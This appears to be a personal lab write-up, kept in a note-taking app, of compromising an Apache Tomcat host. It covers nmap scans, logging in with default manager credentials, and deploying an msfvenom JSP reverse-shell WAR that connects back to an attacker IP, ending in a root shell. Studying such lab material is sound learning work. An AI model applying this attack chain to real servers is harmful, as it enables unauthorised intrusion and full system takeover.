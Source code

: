 Getting a Foothold

Getting a Foothold

# 1. NMAP Scans
TCP Connect Scan with service detection on all ports
`sudo nmap -sV -sT -p- 10.11.1.209`
![5ab1b8a7b6179ee79203b72d5f727b5e.png](:/508fb960b86f4634addedb825fcff36e)

No Ping scan with service detection, and run different scripts. Of interest in this output are the Apache Tomcat credentials from http-default-accounts script on port 8080
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.209`
![268a71e6b03a9c11ab844285811c5d1d.png](:/d21c9008f042461dabff02b15de00d4a)

# 2. Browse to the Apache Tomcat webpage. Enter the credentials --> tomcat:s3cret (I forgot to get a screenshot)
[http://10.11.1.209:8080/manager/html](http://10.11.1.209:8080/manager/html)
![bd4784134a52933c1aff8d4b20cd1f1c.png](:/dff73667ddd745bd90137256189ebd73)


# 3. Notice that you can upload a WAR file in the Deploy table
![c31b39282133be9549b3287d79ec6937.png](:/07424de07cf744f9a2cdcae4cb113624)

# 4. Create a WAR shellcode file using msfvenom
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 war > shell.war`
![64c00824db58592690aab95c0674c72d.png](:/e8e1e61a5ea341d2b7a96bcf38441402)

# 5. Upload shell.war, then press the Deploy button 
![d06a1cea631a4c13824462b3716663ef.png](:/f2c4453a20a44b65a351d2719f14d4cf)

6. You'll see the shell listed in the Applications table
[http://10.11.1.209:8080/manager/html](http://10.11.1.209:8080/manager/html)
![9f75f0070d1eb3d729ea9beea6aa4250.png](:/e9a88faeb2c14764a3695b51e78056cb)

# 7. Start an nc listener
![9749751d284a19f61b6bc3af4f488ead.png](:/3b2dad634fd749bc8507fc2f6a13165c)

# 8. Execute the war file by clicking on the shell.war path listed in the Applications table

# 9. We have a shell on the nc listener
![ffa471ffa499cfa96693d00b8d4635c9.png](:/31244758f5ab4d55bc41f40ef3e867c7)

# 10. Check who you are... you're root!
![766e10a467708c4800cde1af0ced1688.png](:/25966b19703146f8b8925d8c9309e7fb)

# 11. Get a better shell
![cb3d6ceb98a320408f3d7193aec5cf42.png](:/a9f43adc86b44dcaada71de70aed43ae)

id: cd6dd3bc897d4afeb27d9d17c978262e
parent_id: b70545d6155a4f8fa5561e7c6e46deb4
created_time: 2020-08-30T08:07:36.458Z
updated_time: 2020-09-05T08:07:47.054Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-30T08:07:36.458Z
user_updated_time: 2020-09-05T08:07:47.054Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
